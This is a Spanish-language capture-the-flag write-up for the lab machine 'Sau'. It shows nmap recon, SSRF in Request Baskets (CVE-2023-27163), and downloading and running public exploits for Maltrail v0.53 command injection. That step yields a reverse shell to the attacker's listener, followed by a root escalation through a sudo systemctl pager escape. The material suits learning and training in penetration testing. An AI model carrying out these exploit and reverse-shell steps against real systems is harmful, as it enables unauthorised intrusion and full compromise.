


# Sau

`Sau` es una máquina Linux de dificultad fácil que cuenta con una instancia de `Request Baskets` que es vulnerable a la falsificación de solicitudes del lado del servidor (SSRF) a través de `[CVE-2023-27163]`([https://nvd.nist.gov/vuln/detail/CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163)). Aprovechando la vulnerabilidad, podemos obtener acceso a una instancia de `Maltrail` que es vulnerable a la inyección de comandos del sistema operativo no autenticados, lo que nos permite obtener un shell inverso en la máquina como `puma`. Luego, se explota una configuración incorrecta de `sudo` para obtener un shell `root`.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance <a href="#reconnaissance" id="reconnaissance"></a>

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Sau**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.224 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 22:58 CET
Initiating SYN Stealth Scan at 22:58
Scanning 10.10.11.224 [65535 ports]
Discovered open port 22/tcp on 10.10.11.224
Discovered open port 55555/tcp on 10.10.11.224
Completed SYN Stealth Scan at 22:59, 19.93s elapsed (65535 total ports)
Nmap scan report for 10.10.11.224
Host is up, received user-set (0.069s latency).
Scanned at 2025-01-26 22:58:56 CET for 20s
Not shown: 65531 closed tcp ports (reset), 2 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
55555/tcp open  unknown syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 20.07 seconds
           Raw packets sent: 65575 (2.885MB) | Rcvd: 65580 (2.624MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.224
	[*] Open ports: 22,55555

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abiertos el servicio SSH y una página web de `Golang`.

```bash
❯ nmap -sCV -p22,55555 10.10.11.224 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 22:59 CET
Nmap scan report for 10.10.11.224
Host is up (0.072s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  http    Golang net/http server
| http-title: Request Baskets
|_Requested resource was /web
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 26 Jan 2025 22:00:21 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 26 Jan 2025 22:00:04 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 26 Jan 2025 22:00:04 GMT
|     Content-Length: 0
|   OfficeScan: 
|     HTTP/1.1 400 Bad Request: missing required Host header
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request: missing required Host header
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.95%I=7%D=1/26%Time=6796B05F%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sun,\x2026\x20Jan\x20
SF:2025\x2022:00:04\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sun,\x2026\x20Jan\x20
SF:2025\x2022:00:04\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20
SF:Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Co
SF:ntent-Type-Options:\x20nosniff\r\nDate:\x20Sun,\x2026\x20Jan\x202025\x2
SF:022:00:21\x20GMT\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20n
SF:ame;\x20the\x20name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\
SF:-_\\\.\]{1,250}\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20cl
SF:ose\r\n\r\n400\x20Bad\x20Request")%r(SIPOptions,67,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCon
SF:nection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Socks5,67,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=ut
SF:f-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(OfficeScan
SF:,A3,"HTTP/1\.1\x20400\x20Bad\x20Request:\x20missing\x20required\x20Host
SF:\x20header\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnecti
SF:on:\x20close\r\n\r\n400\x20Bad\x20Request:\x20missing\x20required\x20Ho
SF:st\x20header");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   90.36 ms 10.10.16.1
2   31.31 ms 10.10.11.224

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.82 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Initial Access

### requests-baskets 1.2.1 Exploitation (SSRF - Server Side Request Forgery) (CVE-2023-27163)

Al acceder a [http://10.10.11.224:55555](http://10.10.11.224:55555) nos encontramos con la interfaz de `Request Basket` en una versión 1.2.1-

Verificamos que podemos crear un nuevo `Basket`, probaremos de ver primero cómo funciona la herramienta.


Request Baskets es un servicio web diseñado para capturar solicitudes HTTP arbitrarias y facilitar su inspección a través de una API RESTful o una interfaz de usuario web sencilla.

Este servicio se inspira en los conceptos y principios de diseño de aplicaciones del proyecto RequestHub y recrea la funcionalidad que ofrecía anteriormente el servicio RequestBin.


<figure><figcaption></figcaption></figure>

Se nos generará un nuevo `Basket` con un `Token`, abriremos el `Basket` para probar sus funcionalidades.

<figure><figcaption></figcaption></figure>

Verificaremos el siguiente panel en el cual todas las respuestas al `Basket` creado aparecerán en el sitio web.

<figure><figcaption></figcaption></figure>

Hacemos una prueba de enviar una petición por `GET` al `Basket` creado y comprobamos que se nos ve reflejada en el `Basket`.

```bash
❯ curl -s -X GET http://10.10.11.224:55555/l67yrgc
```

<figure><figcaption></figcaption></figure>

En las opciones presentes, nos aparece la opción de Configuración en la cual nos permite realizar un `Forward` hacía una dirección  URL. En esta prueba, nos levantamos un servidor web y configuramos el `Basket` para que haga el `Forward` hacía nuestro servidor.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

<figure><figcaption></figcaption></figure>

Enviamos una petición por `GET` y comprobamos que recibimos la solicitud, por lo tanto, parece ser que el `Forward` se está realizando.

```bash
❯ curl -s -X GET http://10.10.11.224:55555/l67yrgc

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.224 - - [26/Jan/2025 23:15:56] code 404, message File not found
10.10.11.224 - - [26/Jan/2025 23:15:56] "GET /test HTTP/1.1" 404 -
```

Probaremos de informar en el `Forward` que rediriga al localhost del propio servidor, para ver si podemos realizar un `Server Side Request Forgery`.

<figure><figcaption></figcaption></figure>

Al acceder al `Basket` creado, comprobamos que hemos sido redirigidos a una página interna deñ servidor, por lo que parece ser que el `SSRF` se ha realizado correctamente.

<figure><figcaption></figcaption></figure>

Otra de las maneras que encontramos de explotar de manera automática esta vulnerabilidad, es a través del siguiente repositorio de GitHub.



<pre class="language-bash"><code class="lang-bash"><strong>❯ wget https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/refs/heads/main/CVE-2023-27163.sh
</strong>--2025-01-26 23:26:20--  https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/refs/heads/main/CVE-2023-27163.sh
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.111.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 1669 (1,6K) [text/plain]
Grabando a: «CVE-2023-27163.sh»

CVE-2023-27163.sh                                         100%[==================================================================================================================================>]   1,63K  --.-KB/s    en 0s      

2025-01-26 23:26:21 (4,54 MB/s) - «CVE-2023-27163.sh» guardado [1669/1669]

❯ chmod +x CVE-2023-27163.sh

</code></pre>

Ejecutaremos el exploit indicándole la URL target y dónde queremos que se realice el `SSRF` hacía el localhost de la propia máquina. Comprobaremos que se nos ha creado un nuevo `Basket` en donde podemos verificar el `Server Side Request Forgery`.

```bash
❯ ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "xaqqjw" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/xaqqjw now makes the server request to http://127.0.0.1:80.
> Authorization: Ny3T46IMJU35s4oGuVDXT4yrFdQ7h-CxrBgWGvsu0pXB
```

### Maltrail v.053 - Username Injection - Remote Code Execution \[RCE]&#x20;

Accederemos al `Basket` del `SSRF` realizado y verificaremos que se trata de un panel de inicio de sesión de `Maltrail v.053`.


Maltrail es un sistema de detección de tráfico malicioso que utiliza listas (negras) disponibles públicamente que contienen rastros maliciosos y/o generalmente sospechosos, junto con rastros estáticos compilados a partir de varios informes de AV y listas personalizadas definidas por el usuario.


<figure><figcaption></figcaption></figure>

Revisando posibles vulnerabilidades del software, nos encontramos con el siguiente exploit el cual se aprovecha de los campos del formulario de inicio de sesión para conseguir un `Remote Code Execution (RCE)`.



```bash
❯ git clone https://github.com/spookier/Maltrail-v0.53-Exploit; cd Maltrail-v0.53-Exploit
Clonando en 'Maltrail-v0.53-Exploit'...
remote: Enumerating objects: 17, done.
remote: Counting objects: 100% (17/17), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 17 (delta 4), reused 9 (delta 3), pack-reused 0 (from 0)
Recibiendo objetos: 100% (17/17), 4.44 KiB | 2.22 MiB/s, listo.
Resolviendo deltas: 100% (4/4), listo.
```

En una termianl nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Lanzaremos el exploit indicándole nuestra dirección IP y puerto donde estaremos en escucha y el `Basket` vulnerable a `SSRF` que hemos creado anteriormente.

```bash
❯ python3 exploit.py 10.10.16.5 443 http://10.10.11.224:55555/l67yrgc
Running exploit on http://10.10.11.224:55555/l67yrgc/login
```

Revisaremos que ganamos acceso a la máquina y podemos visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.224] 41424
$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
puma@sau:/opt/maltrail$ cat /home/puma/user.txt
cat /home/puma/user.txt
a7e0ab0a8************************
```

## Privilege Escalation

### Abusing sudoers privilege (systemctl)

Revisando los permisos **sudoers** que dispone el usuario `puma`, nos encontramos que el usuario puede ejecutar como **sudo** el comando `/usr/bin/systemctl status trail.service`.

```bash
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Sabiendo que podemos ejecutar el `systemctl` como usuario `sudo`. El objetivo es ejecutar la instrucción y que se ponga en modo "paginate" como con el comando `LESS`. En caso de que nos deje, podremos ejecutar comandos fuera del output y proporcionarnos una bash como usuario `root`. Logramos visualizar la flag de **root.txt**.

```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sun 2025-01-26 21:09:34 UTC; 1h 21min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 899 (python3)
      Tasks: 12 (limit: 4662)
     Memory: 32.1M
     CGroup: /system.slice/trail.service
             ├─ 899 /usr/bin/python3 server.py
             ├─1247 /bin/sh -c logger -p auth.info -t "maltrail[899]" "Failed p>
             ├─1252 /bin/sh -c logger -p auth.info -t "maltrail[899]" "Failed p>
             ├─1256 sh
             ├─1258 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1259 /bin/sh
             ├─1260 script /dev/null -c bash
             ├─1261 bash
             ├─1298 sudo /usr/bin/systemctl status trail.service
             ├─1299 /usr/bin/systemctl status trail.service
             └─1301 pager

Jan 26 21:09:34 sau systemd[1]: Started Maltrail. Server of malicious traffic d>
Jan 26 22:30:18 sau sudo[1297]:     puma : TTY=pts/1 ; PWD=/opt/maltrail ; USER>
!bash
root@sau:/opt/maltrail# whoami
root
root@sau:/opt/maltrail# cat /root/root.txt
5275ac8db31*********************
```


En caso de que no se nos pusiera en modo `less`, podemos jugar con el tamaño de columnas y filas `stty` para convertir la terminal más pequeña y al ejeuctar el `systemctl` se nos ponga en modo paginate.


<figure><figcaption></figcaption></figure>
